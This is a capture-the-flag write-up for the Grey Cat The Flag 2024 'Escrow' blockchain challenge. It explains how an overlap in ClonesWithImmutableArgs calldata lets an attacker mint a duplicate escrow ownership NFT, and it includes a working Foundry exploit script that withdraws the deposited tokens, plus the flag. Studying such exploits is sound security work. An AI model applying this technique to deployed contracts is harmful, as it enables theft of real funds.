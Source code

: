 ```yaml
---
title: Blockchain - Escrow
description: 2024 | Grey Cat The Flag | Blockchain
tags:
    - smart contract
    - clones with immutable args
---
```


## Description

Introducing NFT-based escrows - you can deposit assets and trade escrows by selling your ownership NFT! However, I accidentally renounced ownership for my own escrow. Can you help me recover the funds?

> nc challs.nusgreyhats.org 30101

> [Challenge Files](https://github.com/MiloTruck/evm-ctf-challenges/tree/8763f5fd12c3179227ec9cac0b21b959c6144dca/src/escrow)

## Solution

- 10,000 GREY has been deposited into `DualAssetEscrow`, which is deployed through `EscrowFactory`. To withdraw GREY and solve the challenge, the caller should be the owner of EscrowFactory NFT with certain `escrowId`
- `escrowId` is determined by the addresses obtained from immutable arguments

    ```js
    function initialize() external {
        if (initialized) revert AlreadyInitialized();
        ...
        if (msg.data.length > 66) revert CalldataTooLong();
        
        initialized = true;

        (address factory, address tokenX, address tokenY) = _getArgs();
        escrowId = uint256(keccak256(abi.encodePacked(IDENTIFIER, factory, tokenX, tokenY)));
    }
    ```

- EscrowFactory NFT can only be minted via the `deployEscrow()` function. However, the hash of arguments used in cloning will be recorded and can not be used again. We have to pass different arguments but the result of `_getArgs()` should remain the same as the previously deployed `DualAssetEscrow` to receive an NFT with the same `escrowId`

    ```js
    function deployEscrow(
        uint256 implId,
        bytes memory args
    ) external returns (uint256 escrowId, address escrow) {
        // Get the hash of the (implId, args) pair
        bytes32 paramsHash = keccak256(abi.encodePacked(implId, args));

        // If an escrow with the same (implId, args) pair exists, revert
        if (deployedParams[paramsHash]) revert AlreadyDeployed();

        // Mark the (implId, args) pair as deployed
        deployedParams[paramsHash] = true;
        
        // Grab the implementation contract for the given implId
        address impl = escrowImpls[implId];

        // Clone the implementation contract and initialize it with the given parameters.
        escrow = impl.clone(abi.encodePacked(address(this), args));
        IEscrow(escrow).initialize();

        // Get the ID for the deployed escrow
        escrowId = IEscrow(escrow).escrowId();

        // Mint an ERC721 token to represent ownership of the escrow
        _mint(msg.sender, escrowId);
    }
    ```

- We can not simply adding extra bytes to `args` due to the calldata length check in `DualAssetEscrow::initialize()`. Although adding extra bytes can make `runSize` exceed 65535 bytes and deploy a contract with the expected arguments, the transaction will revert with an out of gas error
- When the `ClonesWithImmutableArgs` proxy is called, the immutable arguments and a 2-byte length field will be appended to the calldata of the delegate call to the implementation contract. The argument is read based on the starting offset and its type

    ```js
    /// @notice Reads an immutable arg with type address
    /// @param argOffset The offset of the arg in the packed data
    /// @return arg The arg value
    function _getArgAddress(uint256 argOffset)
        internal
        pure
        returns (address arg)
    {
        uint256 offset = _getImmutableArgsOffset();
        // solhint-disable-next-line no-inline-assembly
        assembly {
            arg := shr(0x60, calldataload(add(offset, argOffset)))
        }
    }
    ```

- Since `tokenY` is `address(0)` and the first byte of the length field is unused, the first byte of the length field can be utilized as the last byte of the `tokenY`, thus reducing the `args` passed to `deployEscrow()` by one byte, resulting in a different `paramsHash`

    ```js
    // Deploy a DualAssetEscrow
    (escrowId, escrow) = factory.deployEscrow(
        0,  // implId = 0
        abi.encodePacked(address(grey), address(0)) // tokenX = GREY, tokenY = ETH
    );
    ```

### Exploitation

```js
contract Solve is Script {
    function run() public {
        Setup setup = Setup(vm.envAddress("INSTANCE"));
        EscrowFactory factory = setup.factory();
        address grey = address(setup.grey());
        address escrow = setup.escrow();
        vm.startBroadcast(vm.envUint("PRIV"));
        factory.deployEscrow(
            0,  // implId
            abi.encodePacked(
                grey,
                new bytes(19)
            )
        );
        DualAssetEscrow(escrow).withdraw(true, 10_000e18);
        require(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

### Flag

> grey{cwia_bytes_overlap_5a392abcfa2d040a}

